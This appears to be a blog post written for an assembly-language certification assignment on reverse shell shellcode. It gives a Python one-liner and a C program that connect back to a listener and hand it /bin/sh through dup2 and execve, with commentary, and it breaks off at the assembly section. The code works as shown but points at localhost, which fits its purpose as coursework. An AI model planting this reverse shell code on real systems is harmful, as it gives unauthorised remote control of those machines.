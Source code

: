 ```yaml
---
title: "SLAE x86 Exam - Assignment #2"
date: 2021-12-19
toc: true
search: false
classes: wide
categories:
  - blog
tags:
  - slae
  - assembly
  - nasm
  - c
  - exam
---
```


## Disclaimer

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

<https://www.pentesteracademy.com/course?id=3>

Student ID: PA-30398

## Foreword

The second assignment requires you to write shellcode for a `Reverse Shell TCP`.

Follows the visual representation of this technique:

![TODO: INSERT IMAGE]()

## First Attempt

### C Source Code

Given that I didn't know how to write a Reverse Shell in C++, first I looked for a simple onliner in python (closest language I'm familiar with):

```bash
export RHOST="10.0.0.1"
export RPORT=4242
python -c 'import socket,os,pty;s=socket.socket();s.connect(("127.0.0.1", 4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Let's analyze the code:

```py
import socket, os, pty

s = socket.socket()
s.connect(("127.0.0.1", 4444))

# s.fileno() returns the File Descriptor associated with the socket
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]

pty.spawn("/bin/sh")
```

First, it creates a TCP socket and after that it connects to the socket `127.0.0.1:4444`.

Next, it uses the function `dup2` in order to redirect `stdin`, `stdout`, and `stderr` towards the socket.

Finally, it executes `/bin/sh`.

Let's see if my C++ version works:

```cpp
#include <netinet/ip.h>

int main() {
    int client_socket_fd;

    // define an array made up of 1 value: 0
    // this way I don't have to pass NULL pointers to execve
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    // create a TCP socket
    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    // connect to 127.0.0.1:4444
    // where netcat is listening
    // /bin/sh -c "nc -v -l 4444"
    client_address.sin_family = AF_INET;

    // convert the IP address to an 'in_addr' struct
    inet_aton("127.0.0.1", &client_address.sin_addr);
    client_address.sin_port = htons(4444);

    // connect to the socket
    connect(client_socket_fd, (struct sockaddr *)&client_address, sizeof(client_address));

    // redirect stdin/stdout/stderr to the client socket
    dup2(client_socket_fd, 0);
    dup2(client_socket_fd, 1);
    dup2(client_socket_fd, 2);

    // now that the standard file descriptors are redirected
    // once we spawn /bin/sh, input/output/error are going to be bound
    //      to the client socket
    execve("/bin/sh", empty, empty);
}
```

The first part is similar to the previous assignment, however in this case we're not using the value `INADDR_ANY`, but we need a specific IP address to connect to.

I discovered that you can't just do the following:

```cpp
client_address.sin_addr.s_addr = "127.0.0.1";
```

The reason resides in the definition of the [ockaddr_in](https://man7.org/linux/man-pages/man7/ip.7.html):

```cpp
struct sockaddr_in {
    sa_family_t    sin_family; /* address family: AF_INET */
    in_port_t      sin_port;   /* port in network byte order */
    struct in_addr sin_addr;   /* internet address */
};

/* Internet address */
struct in_addr {
    uint32_t       s_addr;     /* address in network byte order */
};
```

The variable `sin_addr` isn't a string (or a `char` array), but it's of type `in_addr`, so we need to convert the string to `in_addr`.

According to [this reference](https://web.archive.org/web/20201128162706/https://www.gta.ufrj.br/ensino/eel878/sockets/inet_ntoaman.html), there are two options:

- `inet_addr`, which is an older function and in theorically it is deprected
- `inet_aton`, which is the recommended way

After that, the function `connect` is used to connect the server socket (the netcat listener running on the same machine), and input/output/error is redirected to the client socket through the use of the `dup2` function.

Lastly, the shell `/bin/sh` is spawned via `execve`. Here's what's different from my first attempt at the `Bind Shell TCP Shellcode`: it seems you don't need to manage receiving commands and executing them, like I did previously (in the first assignment) using the functions `recv`, and `system`.

In fact, after you correctly redirect input/output/error to the client file descriptor, and spawn a shell, everything is done automatically.

### Assembly Code

...